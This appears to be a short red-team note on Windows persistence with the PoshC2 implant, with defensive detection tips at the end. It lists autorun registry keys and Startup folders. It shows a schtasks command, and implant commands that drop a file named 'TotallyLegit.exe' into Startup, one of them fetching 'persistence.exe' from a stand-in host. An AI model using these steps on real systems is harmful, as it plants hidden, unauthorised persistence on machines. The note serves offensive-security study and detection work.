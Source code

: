 # [Redundant access](https://attack.mitre.org/techniques/T1133/)

## Folder Locations: 
* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
* C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
* C:\Users[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

## Exploit syntax:
* SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00

* Reference [Job Scheduling](/Poshc2/instructions/Job_Scheduling.md) for information on redundant access within scheduled tasks

* Can upload a file directly from implant:

```powershell

1. upload-file
2. "../../../../tmp/example.txt" 
3. 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\TotallyLegit.exe'

```

* Also possible to utilize a staged website to pull the malicious file from:

```powershell

web-upload-file -from 'http://notmalicious.com/persistence.exe' -to 'C:\\Users[Username]\\AppData\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\TotallyLegit.exe'

```

## Detection Technique:
* (Kibana): Use a string search to detect schtasks operating within the network. Then add process.command_line to the results column. This will allow for quick separation of uncommon scheduled tasks.

* Investigate downloads from suspicious websites, particularly exe files

* Investigate file creation in the default startup file locations
